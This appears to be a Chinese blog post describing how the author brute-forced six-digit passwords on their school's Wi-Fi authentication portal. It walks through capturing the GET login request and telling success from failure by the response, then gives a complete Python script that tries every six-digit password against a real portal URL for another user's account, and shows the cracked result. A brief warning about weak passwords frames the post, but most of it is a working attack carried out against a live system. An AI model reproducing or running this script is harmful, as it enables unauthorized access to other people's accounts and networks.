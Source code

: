 ﻿---
title: python脚本-暴力破解无线网弱密码 
date: 2019-04-26
---
**背景：学校最近重新架设无线网一体化，而初始密码为弱密码（6位数字），下面我们要做的就是通过暴力破解的方式破解弱密码！（所以建议大家以后无论是在注册还是什么情况，都千万不要使用弱密钥）**
**攻击过程如下：**
## 1.获取get参数
**在爆破之前我们需要获取一些get参数，这些参数应该包含着我们输入的登陆信息。**

登陆无线网前需要在网页上进行身份验证。
![验证界面](https://s2.ax1x.com/2019/04/26/Eni5OU.png)
随便输入一个账号密码，看返回结果是什么。比如输入学号：1122，密码：1231131，运营商选择联通。提示无账号，但是无所谓，毕竟我们的目的在于接下来的抓包环节。抓包看看get的网址，选择我们有用的，比如下图中get参数中包含了我们输入的信息。这很有用，因为这为我们下面的python脚本提供了url。
![获取输入的get参数](https://s2.ax1x.com/2019/04/26/EniomF.png)
看一下回显结果，提示`"result":"0"`等信息。
![验证失败回显内容](https://s2.ax1x.com/2019/04/26/EniTw4.png)
我们再输入一个正确的账号密码，将get参数中的user_account和user_password换成正确的（我自己的无线网认证账号密码，账号和密码就不公布了hhhhh），看一下正确登陆后的回显内容。显示`"result":"1","认证成功"`等信息。
![验证正确回显内容](https://s2.ax1x.com/2019/04/26/Eni7TJ.png)
ok，我们可以根据回显内容的不同来判断是否验证成功。下面就可以进行暴力破解了，只需要选定一个存在的账号，然后穷举6位数字密码的所有可能性，一一验证即可。

## python脚本暴力破解
直接上代码吧：

```
from time import strftime
from itertools import product
from time import sleep
import requests
from requests import post
import re
import threading    #可开启多线程
import time
 
def fx(iter=['0123456789']):
  def psgen(x):    #密码生成器，穷举所有的密码可能性，参数x表示密码长度
    for r in iter:
      for repeat in range(x,x+1):
        for ps in product(r,repeat=repeat):
          yield ''.join(ps)
  for ps in psgen(6):
    url='http://10.2.5.251:801/eportal/?c=Portal&a=login&callback=dr1556270398016&login_method=1&user_account=08xxxx05@unicom&user_password=%s&wlan_user_ip=10.3.37.27&wlan_user_mac=d07e351e9bbe&wlan_ac_ip=&wlan_ac_name=NAS&jsVersion=3.0&_=1556270388759'%ps
    try:
      s=requests.session()
      rs=s.get(url).content.decode('utf-8')
      r = re.findall(r'认证成功',rs)        #判断验证结果
      if r: 
        with open("resut.csv","a+") as f:    #存储密码结果到result.csv文件中
          f.write('密码破解成功结果为：,'+ ps + ',' + strftime("%c") + ',' + url+'\n')
        print('密码破解成功：'+ps+' ,'+rs)
        break
      else:
        print(ps+'密码不正确'+rs)
    except:
      sleep(1)
      pass
      
fx(['0123456789'])
```
接下来运行等待结果就ok了。看一下运行过程图：
![暴力破解过程图](https://s2.ax1x.com/2019/04/26/Enibk9.png)
由于一共的可能性有1000000种，而且每一次穷举都要进行一次网络验证，即每一次验证都有网络延时，所以要等上一会儿。大概爆破了一个多小时，终于爆出了正确结果。生成了result.csv文件，查看一下文件内容，如下所示：
```
密码破解成功结果为：,15xxxx,Fri Apr 26 17:28:19 2019,http://10.2.5.251:801/eportal/?c=Portal&a=login&callback=dr1556270398016&login_method=1&user_account=08xxxx05@unicom&user_password=15xxxx&wlan_user_ip=10.3.37.27&wlan_user_mac=d07e351e9bbe&wlan_ac_ip=&wlan_ac_name=NAS&jsVersion=3.0&_=1556270388759
```
**速度慢可以开启多线程，同时进行测试。结果好很多！**
#### 爆破完成，由此看见，弱密钥的危险性。如有错误或建议，请在评论出指出！
